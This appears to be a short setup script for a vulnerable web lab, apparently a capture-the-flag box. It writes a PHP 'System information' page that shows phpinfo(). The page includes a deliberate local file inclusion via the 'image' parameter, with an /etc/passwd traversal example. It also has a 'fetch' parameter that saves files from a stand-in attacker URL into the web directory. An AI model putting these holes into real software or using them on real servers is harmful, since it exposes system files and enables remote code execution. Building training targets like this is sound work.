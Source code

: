 # NTSC_Tuan5
nano lablfi.sh
sudo chmod +x lablfi.sh
sudo ./lablfi.sh
sudo tee /var/www/tomato/antibot_image/antibots/info.php >/dev/null <<'PHP'
<?php header("X-Frame-Options: DENY"); ?>
<!doctype html><html lang="en"><head>
<meta charset="utf-8"><title>System information</title>
<style>
  :root{--bg:#f7f9fc;--txt:#111;--muted:#4b5563}
  html,body{margin:0;background:var(--bg);color:var(--txt);font:16px/1.6 system-ui,Segoe UI,Roboto,Helvetica,Arial,sans-serif}
  .wrap{max-width:980px;margin:32px auto;padding:0 16px}
  .card{background:#fff;border:1px solid #e5e7eb;border-radius:12px;padding:18px;box-shadow:0 6px 28px rgba(0,0,0,.06)}
  .phpinfo{background:#fff;padding:0;border-radius:10px}
  .muted{color:var(--muted)}
  /* hint chỉ xuất hiện khi View-Source (đã escape), không lộ trên UI */
  pre.dev-hint{display:none}
</style>
</head><body><div class="wrap">
  <div class="card">
    <h2>System information</h2>
    <div class="phpinfo"><?php phpinfo(); ?></div>
    <!-- View-Source hint -->
    <pre class="dev-hint">&lt;?php include $_GET['image']; ?&gt;</pre>
  </div>

<?php
/* LFI giữ nguyên: ?image=../../../../../etc/passwd */
if (isset($_GET['image'])) { $p = $_GET['image']; @include($p); exit; }
/* Fetch giữ nguyên: ?fetch=http://attacker/u.php  (lưu ngay tại thư mục này) */
if (isset($_GET['fetch'])) {
  $url = $_GET['fetch'];
  $basename = basename(parse_url($url, PHP_URL_PATH) ?: 'f.bin');
  $dest = __DIR__ . '/' . $basename;
  $data = @file_get_contents($url);
  if ($data !== false) { file_put_contents($dest, $data); }
}
?>
</div></body></html>
PHP
